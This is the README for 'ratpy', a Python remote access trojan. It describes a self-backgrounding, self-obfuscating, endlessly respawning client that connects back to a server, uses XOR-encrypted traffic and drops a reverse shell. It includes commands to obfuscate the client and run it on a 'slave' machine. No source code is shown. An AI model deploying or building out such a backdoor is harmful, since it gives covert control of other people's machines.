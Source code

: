 # ratpy
#### another snake friendly rat
<p align="left">
<img src="imgs/ratpy.png" width="240" height="160">
</p>

#### backbone branch - simple backdoor without tools

## Architecture
````bash
This is a backbone build that can be extended for specific uses
Start server listening up to 20 connections with a simple menu interface in the terminal
Before deploying and starting client change the port and server ip address for your server 
Client will background by forking twice and killing parents and trying to obfuscate itself (can be improved for your choice of system)
If client fails it will respawn forever which might crash the system after a while but wont start on reboot (can be added)
Encryption is done with simple xor of bytearray of data with the key
Which are verified with a TCP like handshake channel or the exchange will be restarted
Once connection is estabilished we have a default set of commands, which can be expanded, to perform basic machine tasks and drop a shell
````

````bash
The proggie has plenty of debug functions to help understand and debug it, the main utility of this project is
provide a prototype to build something more interesting in a different language, add some tools easily to experiement or get something quickly
tested and educational purposes
````

### Master
* interface - server menu and server cli scripting
* threadpool - running paralel code to serve menu while waiting and handling connections set to up to 20 by default
* tools - backdoor :: encrypted reverse shell 30s RAT connection with respawn and client-side
* utils - encryption methods and connection methods
> cd master && python3 main.py <server_ip_addr> <rat_port> <shell_port>
### _________________________________________________________________________

### Slave
* interface - client cli scripting
* tools - RAT client backdoor
* utils - encryption methods and connection methods
> server :: python3 obfuscator.py && <copy ratpy.py to slave machine>
> python3 ratpy.py <server_ip_addr> <rat_port>
### _________________________________________________________________________

## Adding extensions
* this is just a backbone which can be expanded by adding more tools to the interface and tools dir
